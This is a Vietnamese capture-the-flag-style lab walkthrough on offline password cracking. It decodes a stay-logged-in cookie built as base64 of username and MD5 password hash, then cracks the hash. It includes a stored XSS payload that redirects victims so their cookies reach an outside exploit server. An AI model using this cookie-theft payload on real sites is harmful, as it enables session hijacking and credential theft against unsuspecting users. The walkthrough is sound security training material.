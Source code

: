 ## Lab 8: Offline password cracking

![](https://i.imgur.com/VudgU1h.png)

- Lab này lưu trữ hàm băm mật khẩu của người dùng trong cookie. Phòng lab cũng chứa lỗ hổng XSS trong chức năng bình luận. Để giải quyết lab, hãy lấy cookie đăng nhập thường xuyên của Carlos và sử dụng nó để bẻ khóa mật khẩu của anh ấy. Sau đó, đăng nhập với tư cách Carlos và xóa tài khoản của anh ấy khỏi trang "My account".

- Theo cách làm của bài lab trước ta dễ dàng tìm được công thức của cookie `stay-logged-in` của trang web là: **base64encode(username:(md5hash(password)))**

![](https://i.imgur.com/OYrgZKB.png)

![](https://i.imgur.com/UesiRRt.png)

![](https://i.imgur.com/Gy3nTWz.png)

- Sau khi biết được cách thức tạo nên stay-logged-in ta log out và vào xem 1 bài post bất kỳ để tiến hành tìm lỗ hổng XSS. Đầu tiên ta sẽ xác thực xem trang web có thực sự bị lỗ hổng xss hay không bằng cách chèn vào 1 đoạn mã script alert ra dòng thông báo 'xin chào'

![](https://i.imgur.com/gcHy4VY.png)

![](https://i.imgur.com/DKul0XV.png)

- Vì trang web có in ra dòng thông báo nên ta chắc chắn rằng nó có bị lỗ hổng XSS. Dựa vào lỗ hổng này, ta sẽ tiến hành lấy cookie của trang web bằng việc chèn thêm 1 đọa mã script:

  `<script>document.location='https://exploit-0aad009e044daf7882d31a1601740053.exploit-server.net/'+document.cookie</script>`

- Sau khi submit ta quay lại blog và tiến hành mở exploit server: 
- Sau khi mở exploit server, chúng ta tiến hành truy cập access logs. Tại đây ta sẽ tìm thấy 1 yêu cầu có chứa stay-logged-in được mã hóa

![](https://i.imgur.com/FBbbzco.png)

- Tiếp theo chúng ta sẽ tiến hành giải mã chuỗi stayed-logged vừa tìm được bằng công thức **base64encode(username:(md5hash(password)))** mà chúng ta đã tìm được ở trên

![](https://i.imgur.com/KSdveeF.png)
![](https://i.imgur.com/gmrE9Dy.png)

- Như vậy ta tìm được username: carlos và password: onceuponatime

![](https://i.imgur.com/4TSEkOm.png)

## Lab 9: Password reset broken logic
